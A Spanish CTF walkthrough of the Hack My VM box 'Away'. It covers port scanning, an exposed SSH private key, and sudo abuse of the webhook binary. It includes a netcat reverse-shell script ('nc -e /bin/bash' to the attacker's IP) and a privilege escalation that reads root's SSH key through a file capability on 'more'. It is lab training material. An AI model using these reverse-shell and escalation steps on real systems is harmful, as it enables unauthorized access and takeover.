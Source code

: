 ```yaml
---
layout: post
title: Away
date: 2022-12-25
categories: ["HMV", "SSH", "Capabilities"]
thumbnail: "assets/images/Away.png"
---
```


# Away [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.0.22 -oG allPorts`
- `nmap -sCV -p22,80 192.168.0.22 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si entramos a la página vemos que nos dice un usuario (`tula`) seguido de una imagen randomizada. Al principio de la imagen vemos `[ED25519 256]`. Tras ver esto podemos pensar que se han generado unas llaves `SSH ED25519`, vamos a probar suerte y nos vamos a dirigir a `http://192.168.0.22/id_ed25519`. Bien! Se nos ha descargado la clave privada, también nos descargaremos la pública (`id_ed25519.pub`).

Si examinamos la clave pública veremos que al final pone: `My passphrase is: Theclockisticking`. Ya podemos entrar a la máquina por `SSH`.

Bien! Ya estamos en la máquina como `tula`!

### Subida de privilegios #1
Para poder ser `root` en la máquina necesitaremos primero pasar por `lula`. Para comenzar haremos `sudo -l` y veremos que podemos ejecutar como `lula` y sin contraseña el binario `webhook`:

```
Matching Defaults entries for tula on away:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tula may run the following commands on away:
    (lula) NOPASSWD: /usr/bin/webhook
```

Tras investigar un poco llegué al repositorio de [`WebHook`](https://github.com/adnanh/webhook), ahí podemos ver la documentación para saber cómo funciona.

Necesitamos un fichero `hook.json` donde será especificada la tarea a realizar. Me copié la plantilla que pone como ejemplo y la cambié un poco:

```
[
  {
    "id": "shell",
    "execute-command": "/home/tula/shell.sh",
    "command-working-directory": "/var/webhook"
  }
]
```

Antes de ejecutar la herramienta nos vamos a crear el fichero que especifiqué antes (`shell.sh`). Tiene `NC` instalado por lo que nos será más fácil:

```
#!/bin/bash

nc -e /bin/bash 192.168.0.19 4444
```

Ahora con `chmod +x shell.sh` le damos permisos de ejecución y estamos listos para seguir con la escalada de privilegios. Antes de nada nos pondremos en escucha con `NC` por el puerto que hayamos especificado antes, en mi caso el `4444`.

- `nc -nlvp 4444`

Para poder convertirnos en `lula` ejecutaremos `webhook` como dicho usuario:

- `sudo -u lula /usr/bin/webhook -verbose`

Se nos creará una `WebHook` que será accesible por el puerto `9000`, por lo que nos dirigimos a `http://192.168.0.22:9000/hooks/shell` y recibiremos la conexión.

Bien! Ya estamos como `lula` en la máquina víctima!

### Subida de privilegios #2
Ahora sí podemos convertirnos en `root`. Para conseguir dicho usuario me descargué [`LinPEAS`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) y lo ejecuté. Tras unos segundos de espera vemos algo que nos llama la atención:

```
/usr/bin/more cap_dac_read_search=ep
```

Vemos que el binario tiene la capacidad de saltarse los permisos de lectura, adicionalmente podemos ver que pertenece a nuestro grupo con `ls -alh /usr/bin/more`:

```
-rwxrwx--- 1 root lula 59K ene 20 21:10 /usr/bin/more
```

Con esto sabido y recordando que la máquina utiliza pares de llaves `ED25519` podemos intentar leer la clave privada de `root` para conectarnos por `SSH`:

- `more /root/.ssh/id_ed25519 > root.id_ed25519`

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1
deducted
AwQ=
-----END OPENSSH PRIVATE KEY-----
```

Bien! Ya estamos en la máquina como `root`! Qué fácil!